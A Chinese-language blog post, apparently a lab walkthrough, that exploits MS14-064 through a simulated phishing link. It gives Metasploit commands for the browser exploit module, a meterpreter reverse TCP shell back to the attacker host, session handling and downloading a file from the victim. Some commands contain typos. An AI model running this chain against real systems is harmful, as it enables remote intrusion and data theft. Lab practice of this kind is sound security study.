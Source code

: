 ```yaml
---
layout: post
title:  ms14-064漏洞利用(钓鱼模拟)
date: 2021-03-27 16:18:29 +0900
category: exploiting
---
```


## 0x0 确定攻击者IP、跳板机IP和受害者IP

```c
192.168.88.130 //kail
192.168.88.138 //跳板机
192.168.88.139 //受害者
```
## 0x0 使用kail的metasploit生成钓鱼网站链接

```c
msfconsole
use exploit/windows/browser/ms14_064_ole_code_execution
set payload windows/meterpreter/reserse_tcp
set lhost 192.168.88.130
set allowpowershellprompt ture //设置浏览器插件
exploit
```
![](/images/20210327-1.png)

## 0x1 将钓鱼网站链接放置在跳板机（服务器中）

![](/images/20210327-2.png)
![](/images/20210327-3.png)

## 0x2 受害者访问钓鱼链接

![](/images/20210327-4.png)

## 0x3 kail建立连接以及获取shell

```c
sessions //查看会话
sessions -i 1 //获取shell
```
![](/images/20210327-5.png)
![](/images/20210327-6.png)
![](/images/20210327-7.png)

## 0x4 搜索可疑文件
![](/images/20210327-8.png)
![](/images/20210327-9.png)

## 0x5 下载可疑文件

```c
download c:/lcy1.txt /root //meterpreter模式下
```
![](/images/20210327-10.png)
![](/images/20210327-11.png)